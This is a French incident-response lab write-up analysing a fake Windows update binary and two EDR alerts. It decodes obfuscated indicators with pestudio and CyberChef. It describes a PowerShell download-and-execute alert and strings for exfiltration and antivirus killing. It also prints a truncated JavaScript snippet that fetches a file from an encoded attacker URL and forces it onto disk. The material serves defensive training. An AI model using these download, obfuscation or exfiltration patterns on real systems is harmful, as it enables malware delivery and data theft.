



## Contexte & hypothèse

En pleine garde de nuit, un responsable signale un fichier suspect trouvé sur le poste d'un utilisateur : `C:\Users\DFIRUser\Desktop\windows-update.exe`. En même temps, l'EDR lève deux alertes. Matériel fourni : le binaire, une machine d'analyse avec des outils dans `C:\Users\DFIRUser\DFIR Tools` (dont pestudio et CyberChef), et la console d'alertes.

**Hypothèse de départ :** le fichier se fait passer pour un programme de mise à jour de l'entreprise. Il faut l'identifier, en tirer des IOC exploitables, puis vérifier si les alertes de l'EDR racontent la même histoire.

## Identifier le binaire

:::question
Quelle est l'architecture du fichier, et son hash SHA-256 ?
:::

:::demarche
Avant toute chose, identifier le fichier sans l'exécuter. Je l'ouvre dans **pestudio**, qui fait une première évaluation statique. L'onglet **indicators** regroupe en un seul tableau ce qui sert à le classer : `file > type` donne le format et l'architecture, `file > sha256` l'empreinte qui l'identifiera quel que soit son nom.
:::



:::constat
L'architecture et le hash se lisent directement dans les indicateurs. Le même tableau donne d'autres pistes pour la suite : deux `url-pattern` (une URL et une IP), des bibliothèques signalées (`libraries > flag`) et des imports comme `CreateProcessA` ou `CreateToolhelp32Snapshot`. Le hash est l'IOC le plus solide : c'est lui qu'on recherche ensuite dans la threat intelligence.
:::

## Extraire les IOC réseau

:::question
Quelle URL le fichier contient-il, et quel domaine peut servir d'IOC ?
:::

:::demarche
L'URL apparaît déjà dans `string > url-pattern` des indicateurs. Pour le domaine, je passe dans l'onglet **strings**, qui liste toutes les chaînes du binaire, et je cherche les noms de domaine de la même famille que l'URL, en particulier ceux qui ont un sous-domaine.
:::



:::constat
Le domaine recherché se trouve dans les chaînes. Elles en disent aussi beaucoup sur le comportement : connexion à `external-attacker.thm:25`, chemin du fichier `hosts` et message « Hosts file exfiltrated », mot `Exfiltrator`, noms de processus d'antivirus (`avp.exe`, `bdagent.exe`, `MsMpEng.exe`…), `Taskmgr.exe`, messages « Killed » et « Cannot open ». Un vrai programme de mise à jour n'a aucune raison de contenir tout ça.
:::

## Décoder la chaîne cachée

:::question
Quelle information se cache derrière le domaine suspect ?
:::

:::demarche
Dans les chaînes, une valeur colle au domaine mais se termine par une suite de caractères illisible terminée par `=` : le signe classique d'un encodage **Base64**. Je la copie dans **CyberChef** avec la recette `From Base64`.
:::

```text title="recette CyberChef"
From Base64
```

:::constat
Le décodage donne le flag de la question. À retenir : une chaîne qui se termine par `=` ou `==` et ne contient que des lettres, des chiffres, `+` et `/` est presque toujours du Base64.
:::

## Bibliothèque réseau

:::question
Quelle bibliothèque liée aux sockets le binaire charge-t-il ?
:::

:::demarche
Retour aux indicateurs : `libraries > flag` liste les DLL que pestudio juge notables. Leur description (« Windows Socket Library », « Internet Extensions for Win32 ») dit à quoi elles servent.
:::

:::constat
La bibliothèque de sockets est dans la liste. Avec les bibliothèques Internet et les URL déjà trouvées, le binaire a tout ce qu'il faut pour télécharger et envoyer des données.
:::

## Alerte EDR : PowerShell

:::question
Quelle URL malveillante se cache dans l'alerte déclenchée par `powershell.exe` ?
:::

:::demarche
La commande de l'alerte suit un schéma connu : `DownloadString` télécharge un script, `IEX` l'exécute aussitôt en mémoire. L'adresse n'est pas en clair : elle est passée à `FromBase64String`. Je copie le contenu entre les guillemets dans CyberChef, recette `From Base64`.
:::



:::constat
L'URL décodée pointe vers un exécutable sur le domaine de l'attaquant. Le Base64 sert ici à cacher l'adresse aux filtres simples ; voir [LOLBins Windows](../../02-outils/lolbins-windows.md#powershell).
:::

## Alerte EDR : navigateur

:::question
Quelle URL malveillante se cache dans l'alerte déclenchée par `chrome.exe`, et quel fichier est enregistré ?
:::

:::demarche
Cette fois, l'adresse est écrite sous forme d'une liste de nombres, reconvertis en caractères par `String.fromCharCode`. Ce sont les codes décimaux des caractères : la recette CyberChef `From Decimal` les retraduit. La fin du script crée un lien (`a.download = '…'`) et clique dessus : c'est là que se lit le nom du fichier enregistré.
:::

```js title="structure de la commande (liste tronquée)"
fetch([104,116,116,112,115, ...].map(c=>String.fromCharCode(c)).join(''))
  .then(r=>r.blob())
  .then(b=>{ const u=URL.createObjectURL(b); const a=document.createElement('a'); a.href=u; a.download='…'; a.click(); })
```

:::constat
`104,116,116,112,115` donne déjà `https` : la liste entière décodée donne l'URL, sur un sous-domaine du même domaine. Le script télécharge le fichier dans le navigateur puis force son enregistrement sur le disque.
:::

## Timeline reconstituée

:::timeline
| Heure | Événement | Source |
| --- | --- | --- |
| 13:10 | PowerShell télécharge et exécute un script dont l'adresse est encodée en Base64. | EDR |
| 14:10 | Le navigateur télécharge un fichier depuis une adresse encodée en décimal et l'enregistre. | EDR |

:::

## Ce que j'en retiens

:::points
- **Commencer par les indicateurs de pestudio.** Architecture, hash, URL et bibliothèques sont au même endroit : de quoi classer le fichier en quelques secondes.
- **Les chaînes racontent le comportement.** Domaines, chemins, noms de processus d'antivirus et messages d'erreur suffisent souvent à comprendre ce que fait un binaire sans l'exécuter.
- **Reconnaître l'encodage avant de décoder.** Base64 (`=` à la fin), codes décimaux (`fromCharCode`) : CyberChef a une recette pour chacun.
:::
